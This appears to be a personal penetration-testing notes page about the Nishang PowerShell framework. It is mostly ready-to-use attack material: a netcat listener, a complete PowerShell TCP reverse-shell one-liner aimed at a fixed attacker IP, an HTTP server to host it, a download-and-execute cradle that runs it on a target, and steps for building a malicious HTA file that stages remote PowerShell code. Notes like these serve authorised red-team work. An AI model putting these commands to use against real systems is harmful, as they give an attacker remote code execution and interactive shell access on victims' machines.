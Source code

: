 # [nishang](https://github.com/samratashok/nishang)

> Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

---

## Non-Interactive Command Execution --> Reverse Shell

Start a reverse shell listener.

```bash
sudo nc -nlvp 443 -s 10.6.31.77
```

Make a copy of `nishang/Shells/Invoke-PowerShellTcpOneLine.ps1`, choose and uncomment one of the two options, change its host and port to that of your reverse shell listener, and delete the other.

```powershell
# shell.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.6.31.77',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Serve the reverse shell.

```bash
python3 -m http.server 80
```

Execute the following command on the target to execute the reverse shell.

```cmd
powershell "IEX(New-Object System.Net.WebClient).downloadString('http://10.6.31.77/shell.ps1')"
```

**Note** that if you're having trouble escaping the quotiation marks, you can [[powershell#Execute Base64 Encoded Command|base64 encode the command and execute it that way]].

Receive the reverse shell.

---

## Generate a Malicious HTA Document that Stages & Executes Remote PowerShell Code

Enter a PowerShell session on the attacking machine and source `nishang/Client/Out-HTA.ps1`.

```powershell
. nishang/Client/Out-HTA.ps1
```

Generate the malicious HTA document. Note that while this option stages PowerShell code from a remote URL, there are other options (`Get-Help Out-HTA`).

```powershell
Out-HTA -PayloadUrl $PAYLOAD_URL -HTAFilePath $OUTPUT_HTA_FILE_PATH
```
